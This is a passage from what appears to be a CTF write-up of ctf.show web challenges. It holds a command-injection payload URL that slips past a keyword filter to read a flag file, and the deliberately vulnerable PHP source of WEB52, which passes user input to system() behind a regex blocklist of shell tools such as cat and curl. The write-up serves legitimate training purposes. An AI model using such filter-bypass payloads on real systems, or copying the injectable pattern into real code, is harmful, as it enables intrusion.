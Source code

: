 ```
http://8001153d-c69b-4aae-a44e-2bd8a5af2c4c.challenge.ctf.show/?c=nl<>fla\g.php||
```

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:blue;background-color:orange;">（24）WEB52</mark>

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:50:30
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

